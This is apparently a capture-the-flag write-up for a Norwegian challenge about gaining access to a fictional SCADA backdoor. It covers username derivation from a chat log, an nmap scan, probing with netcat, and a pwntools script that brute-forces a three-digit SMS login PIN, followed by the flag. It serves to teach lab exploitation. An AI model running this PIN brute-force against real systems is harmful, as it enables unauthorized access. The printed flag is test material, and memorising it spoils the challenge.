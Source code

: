 # 2.3_scada_aksess

The previous flag gave us a hint regarding a _backdoor_ (bakdør).

> Du har fått tilgang til gisseltakerenes bakdør inn i styringssystemet.
> Klarer du å styre systemet selv?

And from the chat log `07 DES 2020`, we see that they talk about a backdoor and usernames.

```
[18:27] B4tCracK: for future reference; your username to the backdoor is the first three letters of your first name followed by the
[18:27] B4tCracK: length of your username here and ending with your last name. The capital letters of your name stays capital.
[18:27] B4tCracK: I will NOT repeat this, and do NOT, I repeat; DO NOT write it down!
```
---

## Usernames
We have all the information we need to find the usernames for each person and generate the following list.

| Username           | Full name      | Backdoor username |
| ------------------ | -------------- | ----------------- |
| hungry_hippo_123   | Frank Shorius  | Fra16Shorius      |
| eireen89           | Eireen Farnaby | Eir8Farnaby       |
| RADAR              | Joe Farnaby    | Joe5Farnaby       |
| B4tCracK           | Dillian Cruise | Dil8Cruise        |

----

## Enumeration

We now need to find the actual backdoor. We already know there is a web application (`scada_frontend`) running on the `scada` host, and decide to scan it with nmap:

```sh
Nmap scan report for 074767c25656ad47d4c9d6b079a1ff25_scada.1.w7z18rmflsmd7aj2hb5iez19u.074767c25656ad47d4c9d6b079a1ff25_backend (10.0.74.75)
Host is up (0.0038s latency).
Scanned at 2020-12-21 11:48:24 CET for 1615s
Not shown: 65532 closed ports
PORT     STATE SERVICE        VERSION
80/tcp   open  http           nginx 1.14.2
|_http-title: scada_frontend
1338/tcp open  wmc-log-svc?
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, FourOhFourRequest, GenericLines, GetRequest, HTTPOptions, Help, Kerberos, LDAPSearchReq, LPDString, RPCCheck, RTSPRequest, SMBProgNeg, SSLSessionReq, TLSSessionReq, X11Probe: 
|     Username: That username is not recognized
|     were unable to log you in..
|   NULL: 
|_    Username:
1339/tcp open  kjtsiteserver?
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Sec-Websocket-Version: 13
|     X-Content-Type-Options: nosniff
|     Date: Mon, 21 Dec 2020 10:59:29 GMT
|     Content-Length: 12
|     Request
|   GenericLines, Help, Kerberos, LDAPSearchReq, LPDString, RTSPRequest, SSLSessionReq, TLSSessionReq: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest, HTTPOptions: 
|     HTTP/1.0 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Sec-Websocket-Version: 13
|     X-Content-Type-Options: nosniff
|     Date: Mon, 21 Dec 2020 10:59:04 GMT
|     Content-Length: 12
|_    Request
```

We see two additional ports, `1338` and `1339`, and see that port `1338` requests a username.

---

## Backdoor
Manually connecting to port `1338` promps for a username, and if we input something random we see that the username is not recognized. However, if we input one of the usernames from our list, we see that Frank's user has been revoked answer. We therefore assume that this port is the backdoor that we need to use.

```sh
login@corax:~$ nc scada 1338
Username: test
That username is not recognized
We were unable to log you in..
```
```sh
login@corax:~$ nc scada 1338
Username: Fra16Shorius
User access revoked..
We were unable to log you in..
```

--- 

## Multi-factor authentication

Connecting to the backdor using one of the other usernames we are prompted for a PIN that has been sent to the users' phone via. SMS.
```sh
login@corax:~$ nc scada 1338
Username: Joe5Farnaby
We have now sent a login PIN to you via SMS
Enter PIN: 111
..the provided PIN was not correct.
```
Attempting to add more than 3 digits result with the same error message appended multiple times, depending on how many extra digits we add, indicating that the connection is held open. 
```sh
login@corax:~$ nc scada 1338
Username: Joe5Farnaby
We have now sent a login PIN to you via SMS
Enter PIN: 1111
..the provided PIN was not correct.
..the provided PIN was not correct.
```
```sh
login@corax:~$ nc scada 1338
Username: Joe5Farnaby
We have now sent a login PIN to you via SMS
Enter PIN: 11111
..the provided PIN was not correct.
..the provided PIN was not correct.
..the provided PIN was not correct.
```
---

## Bruteforce
We write a quick and dirty [Python script](./access_backdoor.py) that runs a loop that tries to login with the username `Joe5Farnaby`. It is possible to bruteforce this PIN as the connection after the first attempt is still open, and continue allowing the client to send data. Running this script gives us a welcome back message and the flag is included.

```python
from pwn import *
while True:
    io = remote("scada", 1338)
    io.recvuntil(':')
    io.send("Joe5Farnaby")
    io.recvuntil(':')
    try:
        for i in range(999):
            pin = str(i).zfill(3)
            io.sendline(pin)
            data = io.recv()
            if b"Welcome back" in data:
                # PIN worked, we are in!
                io.recvline()
                io.recvline()
                io.recvline()
                io.recvline()
                exit(0)
            elif b"too many digits" in data:
                # You have entered too many digits for the MFA check
                # Reset connection
                break
            # else: the provided PIN was not correct
        except Exception as e:
            print("Exception in client:", e)
    io.close()
```



---

```sh
login@corax:~$ scoreboard 6b7e34a771b84d0863ce3c7dbd887463
Kategori: 2. Oppdrag
Oppgave:  2.3_scada_aksess
Svar:     6b7e34a771b84d0863ce3c7dbd887463

Godt jobbet! Nå må du bare hjelpe gisselet med å komme seg ut av bygningen!
```
